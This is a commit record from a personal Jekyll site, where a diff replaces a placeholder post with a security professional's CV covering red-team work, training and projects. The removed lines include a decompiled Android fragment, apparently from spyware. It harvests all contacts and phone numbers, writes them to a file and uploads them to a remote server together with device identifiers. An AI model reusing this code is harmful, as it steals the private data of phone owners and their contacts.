

Before and after one commit to Raffo24/raffo24.github.io, a Jekyll site: the page built from _posts/statistics/2022-08-26-hw1.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
update whoami.md

````diff
--- a/_posts/statistics/2022-08-26-hw1.md
+++ b/_posts/statistics/2022-08-26-hw1.md
@@ -10,35 +10,103 @@
 toc: true
 ---
 
-**grassetto**
 
-# Introduction
+# Raffaele Ruggeri
 
-This is code and markdown
-```cs
- if (_comand.equals("getcontact") && _android.equals(_androidid)) {
-            Common.LogImpl("83473516", "contact is OK", 0);
-            contactsutils contactsutilsVar = new contactsutils();
-            contactsutilsVar._initialize(processBA);
-            List _findcontactsbyphone = contactsutilsVar._findcontactsbyphone("", false, false);
-            int size2 = _findcontactsbyphone.getSize();
-            String str6 = "";
-            for (int i2 = 0; i2 < size2; i2++) {
-                List _getphones = contactsutilsVar._getphones(((contactsutils._cucontact) _findcontactsbyphone.Get(i2)).Id);
-                int size3 = _getphones.getSize();
-                for (int i3 = 0; i3 < size3; i3++) {
-                    contactsutils._cuphone _cuphoneVar = (contactsutils._cuphone) _getphones.Get(i3);
-                    str6 = str6 + Common.CRLF + "@The_Mammadw" + Common.CRLF + _cucontactVar.DisplayName + ": " + _cuphoneVar.Number;
-                }
-            }
-            File file4 = Common.File;
-            File file5 = Common.File;
-            File.WriteString(File.getDirInternal(), "Contacts.txt", str6);
-            File file6 = Common.File;
-            _ht._postfile(_port1 + "/upload.php?result=ok&action=upload1&androidid=" + _android + "&opr=" + _opr + "&model=" + _model, File.getDirInternal(), "Contacts.txt");
-        }
-```
+## 👨‍💻 **Who I Am**
 
-# REF
+I am a **Cyber Security Specialist** with extensive experience in **Red Teaming** and **Penetration Testing**. I currently work at **Bip** in the Cyber Security department, where I simulate real-world cyber-attacks to test company systems' security and train defense teams.
+## 🎓 **Background**
 
-1- [LINK](https://google.com)
+I graduated in Computer Science from **La Sapienza University of Rome** and have always been passionate about computing and Cyber Security. Today, I am part of the **Cyber Defense Excellence Center** at **BIP Consulting S.p.A.**, where I engage in highly technical activities across various areas of cyber security, with a particular focus on penetration testing and vulnerability assessment.
+
+In addition to my current role, I have previous work experience as an **Ethical Hacker** at **Aditinet Nomios** and as an **ICT Security Specialist at S3K**. During the years 2022/2023, I held the position of **evaluator in a CEVA laboratory** in the Cyber Security sector at **Sipal S.p.A**.
+
+I have sought challenging experiences over the years to immerse myself in the field I am most passionate about. Notably, I participated and reached the finals in the **CyberX - mind4future** training program competition, organized by **Leonardo S.p.A. and Cyber4.0**, which allowed me to expand my knowledge in the CyberSec field.
+  ![image-center](/assets/images/blog/whoami/Finalista CyberX Mind4Future.jpg){: .align-center}
+Additionally, years ago, **I won the national Hack@2021 competition** focused on optimization problem-solving, organized by **Math2B srl**.
+- [code] https://github.com/Raffo24/FINALE-HACK-2021
+  ![image-center](/assets/images/blog/whoami/Vincitore Hack@2021.jpg){: .align-center}
+## 📚 **Education**
+
+- **Bachelor's Degree in Computer Science** - [La Sapienza], [2023]
+- **Master's Degree in Cyber Security** (on going) - [La Sapienza], [2026]
+- **RomHack Training 2023**:
+    ![image-center](/assets/images/blog/whoami/Offensive Azure AD and Hybrid AD Security.jpg){: .align-center}
+	- **TCM Security Academy:**
+		- **Beginner's Guide to IoT and Hardware Hacking**
+    ![image-center](/assets/images/blog/whoami/IoT & Hardware Hacking.jpg){: .align-center}
+		-   **Practical Web Hacking**
+    ![image-center](/assets/images/blog/whoami/Practical Web Hacking.jpg){: .align-center}
+		-  **Practical Phishing Campaigns**
+    ![image-center](/assets/images/blog/whoami/Phishing.jpg){: .align-center}
+		- **Rust 101**
+	  ![image-center](/assets/images/blog/whoami/Rust.jpg){: .align-center}
+	 **Udemy:**
+		- **Introduzione alla malware analysis: Un approccio pratico**
+    ![image-center](/assets/images/blog/whoami/Malware Analysis.jpg){: .align-center}
+	 -   **Ethical Hacking & Pentesting in Active Directory Pratico!**
+    ![image-center](/assets/images/blog/whoami/ActiveDirectory.jpg){: .align-center}
+	 - **BLOCKCHAIN INNOVATION MANAGER**
+    ![image-center](/assets/images/blog/whoami/Blockchain.jpg){: .align-center}
+	- **Coursera:**
+		- **Cyber Threat Hunting**
+    ![image-center](/assets/images/blog/whoami/Cyber Threat Hunting.jpg){: .align-center}
+	 - **Security Operations Center (SOC)**
+    ![image-center](/assets/images/blog/whoami/Security Operations Center (SOC).jpg){: .align-center}
+## 💼 **Work Experience**
+
+### Cyber Security Consultant - **Bip S.p.A.** (Red Team)
+*[July/2024] - Present*
+- Conduct advanced penetration tests and targeted attack simulations
+- Perform vulnerability management for a prominent insurance company
+- Develop custom tools to automate testing activities
+### Ethical Hacker - **Aditinet Nomios**
+*[February/2024] - [July/2024]*
+I was a key member of the ethical hacking team at Aditinet Nomios.
+In this role, I was responsible for leading the execution of assigned projects, coordinating the team's work, and ensuring that the set objectives were achieved.
+The main activities of the team included:
+- Open Source Intelligence (OSINT);
+- Vulnerability Assessment;
+- Penetration Testing;
+### ICT Security Specialist - **S3K S.p.A.**
+*[September/2023] - [February/2024]*
+I worked in the ethical hacking team at S3K, focusing on OSINT activities, Vulnerability Assessment, and Penetration Testing in the areas of Web Applications, Mobile, and Infrastructure.
+Additionally, I supported SOC activities by assisting first-level analysts with their daily tasks and collaborating with second-level analysts to fine-tune SIEM rules and the data collection infrastructure.
+### Security Evaluation Specialist - **SIPAL S.p.A.**
+*[Marchr/2022] - [March/2023]*
+- Evaluation of ICT products and systems
+- Compliance verification activities against a specific security standard (e.g., Common Criteria)
+- Assessment of Security Targets
+- Assistance with Common Criteria
+- Consulting on the preparation of documentation necessary for an evaluation.
+## 🛠 **Technical Skills**
+
+- **OSINT**
+- **Red Team Operations**
+- **Malware Development**
+- **Exploit Development**
+- **Bug Hunting**
+- **Malware Analysis**
+- **Advanced Phishing**
+- **Radio Communications Interception**
+- **Hardware Hacking**
+## 🔬 **Personal Projects**
+
+- [PTS - Portable Transceiver System]: the project aims to facilitate communication between two Android devices in areas without coverage through direct radio communication.
+	- [frontend] (https://github.com/Raffo24/PTS-Portable-Transceiver-System)
+	- [backend] (https://github.com/JackieSpring/PTSRadio)
+- [Sapienza CTF](https://github.com/Raffo24/SapienzaCTF): "Sapienza CTF" is the workbook of the ACSAI Cyber Security course
+- [pix2text-hotkey](https://github.com/Raffo24/pix2text-hotkey): A lightweight script for performing HCR/OCR on formulas, pages, and text extracted directly from clipboard images using hotkeys
+- [nessus2csv](https://github.com/Raffo24/nessus2csv): a script for exporting all the data from the nessus scan file into csv format
+- [TelegramGrabber](https://github.com/Raffo24/TelegramGrabber): Python script capable of downloading chats from Telegram groups and channels and saving them in an SQLite database.
+- [ATC - Air Traffic Control ](https://github.com/Raffo24/AirTrafficControl): Air Traffic Control is a visualization software that, paired with Dump1090, identifies and calculates the coordinates of the aircrafts.
+## 🎯 **Hobbies & Interests** - **Electronics**:
+Tinkering with electronic projects, building small devices, and experimenting with embedded systems.
+- **Capture The Flag (CTF)**: Participating in CTF competitions to hone my penetration testing and problem-solving skills.
+- **Calisthenics**: Practicing bodyweight exercises to improve strength, flexibility, and overall fitness.
+- **Programming**: Exploring new programming languages and contributing to open-source security tools.
+- **Reading**: Staying up to date with the latest in cyber security, ethical hacking, and technology trends.
+## 📈 **Future Goals**
+
+Continue enhancing my skills in Cyber Security and exploring new research areas like **machine learning applied to security**.
````
Also changed, not shown: assets/images/blog/whoami/ActiveDirectory.jpg (added), assets/images/blog/whoami/Blockchain.jpg (added), assets/images/blog/whoami/Cyber Threat Hunting.jpg (added), assets/images/blog/whoami/Finalista CyberX Mind4Future.jpg (added), assets/images/blog/whoami/IoT & Hardware Hacking.jpg (added), assets/images/blog/whoami/Malware Analysis.jpg (added), assets/images/blog/whoami/Offensive Azure AD and Hybrid AD Security.jpg (added), assets/images/blog/whoami/Phishing.jpg (added), assets/images/blog/whoami/Practical Web Hacking.jpg (added), assets/images/blog/whoami/Rust.jpg (added), assets/images/blog/whoami/Security Operations Center (SOC).jpg (added), assets/images/blog/whoami/Vincitore Hack@2021.jpg (added).
